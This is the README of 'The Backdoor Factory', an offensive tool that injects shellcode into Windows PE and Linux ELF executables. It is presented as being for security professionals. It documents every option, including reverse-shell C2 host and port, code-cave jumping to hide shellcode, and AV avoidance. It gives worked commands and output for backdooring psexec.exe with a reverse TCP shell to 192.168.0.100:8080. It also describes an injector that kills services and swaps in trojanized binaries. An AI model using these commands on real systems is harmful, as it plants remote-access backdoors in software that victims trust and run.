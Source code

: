 ##The Backdoor Factory
For security professionals and researchers only.

Many thanks to Ryan O'neill --ryan 'at' codeslum <d ot> org--
Without him, I would still be trying to do stupid things 
with the elf format.
Also thanks to Silvio Cesare with his 1998 paper 
(http://vxheaven.org/lib/vsc01.html) which these ELF patching
techniques are based on.

I learned a ton about the ELF format.  The first frustrating thing I noticed were the lack of code caves in debian builds.  However, you don't really need them. See the link above, circa 1998.  The look and feel to the user will be no different for ELF binaries, just point the tool at them as you have for PE bins.

From DerbyCon: 
    
    Video: http://www.youtube.com/watch?v=jXLb2RNX5xs

    Injection Module Demo: http://www.youtube.com/watch?v=04aJAex2o3U

    Slides: http://www.slideshare.net/midnite_runr/patching-windows-executables-with-the-backdoor-factory

Injects shellcode into win32/64 PE and linux32/64 ELF Files, to continue normal file execution (if the shellcode supports it), by patching the exe/dll directly.

Some executables have built in protections, as such this will not work on all binaries.  It is advisable that you test target binaries before deploying them to clients or using them in exercises.

Recently tested on all 32/64bit Sysinternal tools and Chrome browser.
---

Usage: ./backdoor.py -h

Usage: backdoor.py [options]

Options:
  -h, --help            show this help message and exit
  
  -f FILE, --file=FILE  File to backdoor
  
  -s SHELL, --shell=SHELL
                        Payloads that are available for use.
  
  -H HOST, --hostip=HOST
                        IP of the C2 for reverse connections
  
  -P PORT, --port=PORT  The port to either connect back to for reverse shells
                        or to listen on for bind shells
  
  -J, --cave_jumping    Select this options if you want to use code cave
                        jumping to further hide your shellcode in the binary.
  
  -a, --add_new_section
                        Mandating that a new section be added to the exe
                        (better success) but less av avoidance
  
  -U SUPPLIED_SHELLCODE, --user_shellcode=SUPPLIED_SHELLCODE
                        User supplied shellcode, make sure that it matches the
                        architecture that you are targeting.
  
  -c, --cave            The cave flag will find code caves that can be used
                        for stashing shellcode. This will print to all the
                        code caves of a specific size.The -l flag can be use
                        with this setting.
  
  -l SHELL_LEN, --shell_length=SHELL_LEN
                        For use with -c to help find code caves of different
                        sizes
  
  -o OUTPUT, --output-file=OUTPUT
                        The backdoor output file
  
  -n NSECTION, --section=NSECTION
                        New section name must be less than seven characters
  
  -d DIR, --directory=DIR
                        This is the location of the files that you want to
                        backdoor. You can make a directory of file backdooring
                        faster by forcing the attaching of a codecave to the
                        exe by using the -a setting.
  
  -w, --change_access   This flag changes the section that houses the codecave
                        to RWE. Sometimes this is necessary. Enabled by
                        default. If disabled, the backdoor may fail.
  
  -i, --injector        This command turns the backdoor factory in a hunt and
                        shellcode inject type of mechinism. Edit the target
                        settings in the injector module.
  
  -u SUFFIX, --suffix=SUFFIX
                        For use with injector, places a suffix on the original
                        file for easy recovery
  
  -D, --delete_original
                        For use with injector module.  This command deletes
                        the original file.  Not for use in production systems.
                        *Author not responsible for stupid uses.*
  
  -O DISK_OFFSET, --disk_offset=DISK_OFFSET
                        Starting point on disk offset, in bytes. Some authors
                        want to obfuscate their on disk offset to avoid
                        reverse engineering, if you find one of those files
                        use this flag, after you find the offset.
  
  -S, --support_check   To determine if the file is supported by BDF prior to
                        backdooring the file. For use by itself or with
                        verbose. This check happens automatically if the
                        backdooring is attempted.
  
  -q, --no_banner       Kills the banner.
  
  -v, --verbose         For debug information output.


---

Features:

-After making a copy of the target file, the file copy will be patched directly.

-Finding all codecaves in an EXE/DLL.

-Injecting modified reverse/bind shells that allow continued execution after connection to the attacker.

-Modifying the PE/COFF header to add an additional section for all win32 executables/dlls, including those with an import table.

-Using the existing shellcode options, the ability to select PORT and HOST as connection options

-The ability to backdoor a directory of executables/dlls

---------------------------------------------

Sample Usage:
---

###Backdoor a exe/dll using an existing code cave:

./backdoor.py -f psexec.exe -H 192.168.0.100 -P 8080 -s reverse_shell_tcp 

[*] In the backdoor module

[*] Checking if binary is supported

[*] Gathering file info

[*] Reading win32 entry instructions

[*] Looking for and setting selected shellcode

[*] Creating win32 resume execution stub

[*] Looking for caves that will fit the minimum shellcode length of 402

[*] All caves lengths:  (402,)

-############################################################

The following caves can be used to inject code and possibly

continue execution.

**Don't like what you see? Use jump, single, or append.**

-############################################################

[*] Cave 1 length as int: 402

[*] Available caves:

1. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d2d5 End: 0x2d4d0; Cave Size: 507

2. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d4e9 End: 0x2d6d5; Cave Size: 492

3. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d6e3 End: 0x2d8d8; Cave Size: 501

4. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d8f1 End: 0x2dadd; Cave Size: 492

5. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2dae7 End: 0x2dce0; Cave Size: 505

6. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2dcf3 End: 0x2dee5; Cave Size: 498

7. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2defb End: 0x2e0ea; Cave Size: 495

8. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2e161 End: 0x2e390; Cave Size: 559

9. Section Name: .rsrc; Section Begin: 0x2f200 End: 0x5bc00; Cave begin: 0x58a39 End: 0x58c68; Cave Size: 559

**************************************************

[!] Enter your selection: 5

Using selection: 5

[*] Changing Section Flags

[*] Patching initial entry instructions

[*] Creating win32 resume execution stub

[*] psexec.exe backdooring complete

File psexec.exe is in the 'backdoored' directory

---

###Backdoor an exe/dll by adding a code section:

./backdoor.py -f psexec.exe -H 192.168.0.100 -P 8080 -s reverse_shell_tcp -a 

Adding a new section to the exe/dll for shellcode injection

psexec.exe backdooring complete

File bd.psexec.exe is in current directory

---
###Backdoor a directory of exes:
./backdoor.py -d test/ -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -a


...output too long for README...

---
###Hunt and backdoor: Injector
The injector module will look for target executables to backdoor on disk.  It will check to see if you have identified the target as a service, check to see if the process is running, kill the process and/or service, inject the executable with the shellcode, save the original file to either file.exe.old or another suffix of choice, and attempt to restart the process or service.  
Edit the python dictionary "list_of_targets" in the 'injector' module for targets of your choosing.

./backdoor.py -i -H 192.168.0.100 -P 8080 -s reverse_shell_tcp -a -u .moocowwow 
